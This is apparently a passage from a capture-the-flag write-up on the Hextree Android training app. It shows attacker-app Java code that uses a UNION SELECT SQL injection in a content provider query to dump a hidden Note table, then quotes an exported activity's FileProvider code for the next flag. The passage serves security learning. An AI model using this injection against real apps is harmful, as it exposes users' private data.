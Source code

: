 ```java
  
Intent intent_33 = getIntent();  
if (intent_33.getAction() != null & "io.hextree.FLAG33".equals(getIntent().getAction())) {  
    Cursor cursor = getContentResolver().query(intent_33.getData(), new String[]{"name", "value", "visible"}, "_id = 2 UNION SELECT  * FROM Note", null, null);  
    if (cursor.moveToFirst()) {  
        do {  
            StringBuilder sb = new StringBuilder();  
            for (int i = 0; i < cursor.getColumnCount(); i++) {  
                if (sb.length() > 0) sb.append(", ");  
                sb.append(cursor.getColumnName(i)).append(" = ").append(cursor.getString(i));  
            }  
            Log.d("evil", sb.toString());  
        } while (cursor.moveToNext());  
    }  
}
```

### Flag 34
#### Code analysis
```xml
 <activity
	android:name="io.hextree.attacksurface.activities.Flag34Activity"
	android:exported="true"/>
```

The activity is exported so we can interact with it from our app

```java
    public void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        String stringExtra = getIntent().getStringExtra("filename");
        if (stringExtra != null) {
            prepareFlag(this, stringExtra);
            Uri uriForFile = FileProvider.getUriForFile(this, "io.hextree.files", new File(getFilesDir(), stringExtra));
            Intent intent = new Intent();
            intent.setData(uriForFile);
            intent.addFlags(3);
            setResult(0, intent);
            return;
        }
        Uri uriForFile2 = FileProvider.getUriForFile(this, "io.hextree.files", new File(getFilesDir(), "secret.txt"));
        Intent intent2 = new Intent();
        intent2.setData(uriForFile2);
        intent2.addFlags(3);
        setResult(-1, intent2);
    }

    void prepareFlag(Context context, String str) {
        if (str.contains("flag34.txt") && new File(getFilesDir(), str).exists()) {
            LogHelper logHelper = new LogHelper(context);
            logHelper.addTag("file-provider");
            logHelper.addTag("flag34");
            Utils.writeFile(this, "flags/flag34.txt", logHelper.appendLog(FLAG));
        }
    }

```
